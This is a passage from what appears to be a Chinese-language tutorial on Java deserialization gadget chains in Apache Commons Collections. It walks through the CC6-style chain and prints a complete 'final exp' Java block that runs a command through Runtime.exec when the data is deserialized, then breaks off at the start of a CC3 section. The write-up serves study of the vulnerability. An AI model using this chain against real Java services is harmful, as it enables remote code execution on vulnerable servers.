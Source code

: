为啥呢，从URLDNS链也可以知道 ，`HashMap#put()`方法也是可以触发`hashcode`的，所以我们还需要用反射的方式去修改点属性让他反序列化出来也没问题

所以可以先让他put进去的时候是空的，然后put完去序列化的时候通过反射再给他赋值

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-5cf62c707035449a9cc7fe401726d64befa6650c.png)

但是这里反序列化还是不会执行，为什么呢？通过调试我们发现他在`LazyMap#get()`方法的时候最后会把key return回去

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4bafee074ceb7875912bef1e54f00a95b77a7992.png)

那也就是说在put方法之后我们去把这个key给`remote`掉就好了

最终exp

```java
 Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,new ConstantFactory(1));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aa");
        HashMap<Object, Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry, "bbb");
        lazyMap.remove("aa");

        Class c = LazyMap.class;
        Field factoryfield = c.getDeclaredField("factory");
        factoryfield.setAccessible(true);
        factoryfield.set(lazyMap,chainedTransformer);

        serialize(map2);
        unserialize("ser.bin");
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-9d469bb6431e86ca83fab14f32b61ce110cb3510.png)

‍

# CC3

‍

CC3其实后半段就是动态类加载，其实就是跟`Fastjson`的<=1.2.24的Jdk7u21链子是一样的，(因为我先学了fastjson)

## TemplatesImpl链
